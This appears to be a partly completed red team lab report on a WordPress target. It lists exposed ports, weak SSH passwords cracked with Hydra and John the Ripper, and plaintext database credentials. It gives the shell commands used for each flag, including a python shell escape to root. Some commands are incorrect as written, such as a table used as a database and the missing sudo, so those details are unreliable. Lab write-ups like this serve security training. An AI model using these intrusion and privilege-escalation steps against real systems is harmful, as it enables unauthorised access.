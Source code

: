 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services
_TODO: Fill out the information below._

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sS -sV 192.168.1.110
  # TODO: Insert scan output
```

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22 (SSH)
  - Port 80 (HTTP)
  - Port 111 (rpcbind)
  - Port 139 (netbios-ssn)
  - Port 445 (netbios-ssn)

_TODO: Fill out the list below. Include severity, and CVE numbers, if possible._

The following vulnerabilities were identified on each target:
- Target 1
  - wpscan enumerate usernames
	- running wpscan was able to enumerate usernames for the target 	  system.
     (insert wpscan screenshots)

  - SSH with password.
	- Users are able to SSH with a password instead of requiring an 	  SSH key.
	- User michael had a weak password(Brute forced with HYDRA)
	(insert hydra screenshot)

  - Database credentials for wordpress are written in plain text.
	- Database credentials were stored in /var/www/html/
	- This allowed me to access the mysql database and extract 	  confidential information such as password hashes.

  - python can be run with sudo privilages.
	- The user steven has the ability to run python with sudo.
	- Running python with sudo can execute arbitrary code on the 	  system to get a shell with root access.


_TODO: Include vulnerability scan results to prove the identified vulnerabilities._

### Exploitation
_TODO: Fill out the details below. Include screenshots where possible._

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  
  - `flag1`: b9bbcb33e11b80be759c4e844862482d
    - **Exploit Used**
      - Weak password / SSH into system with password.
      - After connecting to the system using michael's credentials, I 	was able to run the grep command in the /var directory and 		discovered flag1 was contained in /var/www/html/service.html.
    - Commands run:
	- ssh michael@192.168.1.110 (password michael)
	- cd /var
	- grep -rnw ./ -e flag1 2>/dev/null

  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a36e581c
    - **Exploit Used**
      - Weak password / SSH into system with password.
      - After connecting to the system using michael's credentials, I 		was able to cat the flag 2 file found in /var/www.
    - Commands run:
	- ssh michael@192.168.1.110 (password michael)
	- cd /var/www
	- cat flag2.txt

  - 'flag3': afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - Datbase credentails in plain text.
      - I was able to select the flag out of wp_posts in the mysql 		database after obtaining the credentails in 		/var/www/html/wp_config.php.
    - Commands run:
	- ssh michael@192.168.1.110 (password michael)
	- cat /var/www/html/wp_config.php
	- mysql -u root -p (password R@v3nSecurity)
	- USE wordpress;
	- USE wp_posts;
	- SELECT * FROM wp_posts;

  - 'flag4.txt': 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - python can be run with sudo.
      - After cracking steven's password hash using john the ripper, it 	was discovered that steven could run python with sudo 	priviliages.
      - Using a simple command I was able to execute a shell with root 	privilages and flag4 was found in the /root directory.
     - Commands run:
	- ssh steven@192.168.1.110 (password pink84)
	- python -c 'import os; os.system("/bin/sh")'
	- cat /root/flag4.txt